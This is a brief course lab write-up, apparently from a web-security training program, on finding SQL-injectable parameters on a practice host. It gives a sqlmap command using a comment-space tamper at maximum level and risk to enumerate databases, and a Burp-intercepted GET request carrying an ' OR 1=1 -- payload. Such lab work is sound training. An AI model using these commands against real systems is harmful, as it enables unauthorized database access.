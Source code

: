 Tasks

======

0. SQLi - Basic Injection Discovery
The first step in exploiting SQL injection vulnerabilities is to identify which parameters are vulnerable.
Your goal is to identify which parameters in the application’s web pages are susceptible to SQL injection attacks. For that you should:

Access the machine cyber_websec_0x01 through the VPN.
Navigate to: http://web0x01.hbtn/a3/sql_injection/. (dont forget to edit your /etc/hosts)
Search for the vulnerable paramters.

R:

sqlmap:
sqlmap -u "http://web0x01.hbtn/api/a3/sql_injection/all_orders?status=paid" --tamper=space2comment --level=5 --risk=3 --dbs

BurpSuite:

in interception
GET /api/a3/sql_injection/all_orders?status=%27%20OR%201%3D1%20-- HTTP/1.1

======
